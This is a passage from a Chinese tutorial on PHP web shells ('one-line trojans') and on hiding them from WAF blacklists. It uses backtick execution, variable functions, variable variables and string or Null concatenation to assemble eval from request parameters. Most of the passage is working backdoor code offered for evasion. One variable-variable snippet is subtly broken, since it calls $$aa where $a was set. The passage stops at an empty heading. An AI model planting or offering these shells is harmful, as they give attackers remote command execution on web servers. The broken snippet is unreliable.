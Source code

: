 反引号(``)可以执行系统命令并返回命令的执行结果字符串，可单独使用，也可配合其他命令执行函数使用来绕过参数中的滤条件

```php
echo `$_POST['cmd']`;    //index.php
```

#### 使用变量函数混淆

如果 WAF 把 eval($_POST['cmd'])放进了 BlackList，我们可以采用变量函数避免它们直接出现，例如

```php
<?php
$a = "eval";
@$a($_POST['cmd']);
?>
```

我们可以配合可变变量进行更一步的混淆

```php
<?php
$bb="eval";
$a='bb';
@$$aa($_POST['cmd']);
?>
```

其中 **$$aa = $($aa) = $ (‘bb’) = $bb = " eval "**
我们甚至可以直接用两个 URL 参数执行一句话木马

```php
<?php @$_POST['exec']($_POST['cmd']); ?>
```

#### 变量函数配合字符串拼接混淆

如果 WAF 直接把 eval 等函数加进了 BlackList，为了绕过，我们可以通过字符串拼接的手段拼凑出命令执行函数

##### 直接拼接字符串

```php
<?php
$a = 'e'.'v'.'a'.'l';
@$a($_POST['cmd']);
?>
```

##### Null 拼接

```php
<?php
$str1 = Null;
$arg1 = $_GET['cmd'];
eval($str1.$arg1);
?>
```

##### 使用 ASCII 编码拼接
